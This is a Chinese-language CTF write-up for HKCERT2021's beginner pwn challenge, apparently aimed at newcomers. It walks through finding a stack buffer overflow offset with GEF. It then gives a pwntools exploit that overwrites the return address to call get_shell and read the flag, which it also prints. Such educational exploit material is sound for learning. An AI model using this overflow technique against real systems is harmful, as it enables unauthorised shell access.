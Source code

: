 # HKCERT2021 - 想改寫的事
- Write-Up Author: Ivan Mak \[[MOCTF](https://hackmd.io/JH0dysBTSx6H1o1PZ7OqWg)\]

- Flag: hkcert21{be_c4r3_WIth_7he_5iZe}

## **Question:**
想改寫的事 (50 points)

>Challenge description

![img](./img/1.png)

Attachment: [warmup_6eab9fa64b5dd76649f6c0372315aabe.zip](./warmup_6eab9fa64b5dd76649f6c0372315aabe.zip)

## Write up
- 知識點

這是一道經典的 pwn 基礎題，香港朋友他們在出這一道題之前，已經事先在 Youtube 上發布了 [PWN 101 - Buffer Overflow 【廣東話 CTF 新手教學】](https://www.youtube.com/watch?v=Ag0OcqbVggc)，雖然題目不同，但核心解法和原理幾乎一樣，可以說看了它就能解這題。而且這是一個適合新手的 pwn 入門視頻教學，特別推薦第一次玩 pwn 的小伙伴。

這裡有 2 個很重要的工具需要使用到，[GEF](https://github.com/hugsy/gef) 和 [pwntools](https://github.com/Gallopsled/pwntools)，具體的安裝方法這裡不贅述，你是駭客就自行解決吧。

1. 先看附檔內容

**warmup.c**
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_shell() {
    system("/bin/sh");
}

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    alarm(60);
}

int main () {
    char buf[100];
    char end[8] = "N";
    init();
    printf("Welcome to echo service.\n");
    while(!(end[0] == 'Y' || end[0] == 'y')){
        int num_read = read(0, buf, 0x100);
        if (buf[num_read-1] == '\n')
            buf[num_read-1] = '\0';
        printf("%s", buf);
        printf("End?[Y/N] ");
        scanf("%7s", end);
    }
}
```

這裡的目標是，從 read() 讀一個過長的字串，令 buf[100] 產生溢位(buffer overflow)，從而執行函式 get_shell()

2. 用 GEF 找溢位長度

附檔裡有一個叫 chall 的執行檔，它是 warmup.c 編譯出來的，我先給 chall 一個可執行的屬性。

```
chmod 777 chall

```

a. 運行 gef

```
$ gdb
gef➤ file chall

```

![img](./img/2.png)

b. 查看 main 的 disassemble

```
gef➤  disassemble main

```

![img](./img/3.png)

c. 建立 break point

把 break point 建立在最後一個位置 0x00000000004012ba 上

```
gef➤ break *main+186

```

![img](./img/4.png)

d. 執行並填入大量字串

```
gef➤ run

```

![img](./img/5.png)

![img](./img/6.png)

e. 找出需要用多少字才回傳到 stack 的起始值

```
gef➤ pattern create 500

```

![img](./img/7.png)

![img](./img/8.png)

看到填入的字串產生了變化，搜尋第一行位置的 pattern 值

```
gef➤  pattern search 0x00007fffffffe228

```

![img](./img/9.png)

找到共需填入 383 個字元才到達 stack 的起始回傳的位置

3. 用 python 的 pwntools 寫 payload

記得用 gef 查看一下 get_shell 的位置

```
gef➤  disassemble get_shell
```

![img](./img/10.png)


```
from pwn import *

p = remote("chalp.hkcert21.pwnable.hk",28028)
p.recvuntil("service.")

get_shell = 0x0000000000401182
p.sendline(b"a"*383 + p64(get_shell))

p.recvuntil("End?[Y/N]")
p.sendline("y")

p.interactive()
```

這樣就能取得 shell 的執行權為所欲為
```
ls 
cat flag.txt

```

![img](./img/11.png)

> hkcert21{be_c4r3_WIth_7he_5iZe}
